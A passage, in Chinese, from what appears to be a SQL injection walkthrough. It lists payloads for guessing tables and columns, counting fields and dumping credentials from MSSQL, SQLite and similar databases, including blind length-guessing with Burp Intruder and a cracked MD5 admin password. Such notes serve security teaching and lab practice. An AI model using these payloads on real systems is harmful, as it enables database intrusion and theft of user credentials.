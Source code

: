 4. 猜解列名 

   `and exists(select id from admin)` 页面显示正常，admin表中存在id列 username,passwd 同样存在

5. 脱库 union select 1,username,passwd,4 from admin

### MSSQL：

1. `and 1=2` 报错

2. `order by N#` 获取总字段

3. 猜表名 `and exists(select * from manage)` 表名manage存在

4. 猜解列名 `and exists(select id from manage)` 列名id存在，同样username,password也存在

5. 拖库`and exists(select id from manage where id=1)` 证明id=1存在

​	`and exists(select id from manage where%20 len(username)=8 and id=1)` 猜解username字段长度为8

​	`and exists(select id from manage where%20 len(password)=16 and id=1)` 猜解password字段长度为16

可用Burp的Intruder功能辅助猜解

猜解username第1到8位的字符，ASCII转码 admin_mz

猜解password第1到16位的字符，ASCII转码(Burp 爆破)

转ASCII的py脚本：

72e1bfc3f01b7583 MD5解密为97285101

### SQLite：

1.找注入点 `and 1=1`

2.`order by N` 猜字段 4

3.猜数据库

offset ==>0~2

有三个数据库：

WSTMart_reg

notice_sybase

sqlite_sequence

4.猜列

共有3个字段：

id,name,password

5.脱裤

 

### MongoDB:

1.id=1′ 单引号注入报错
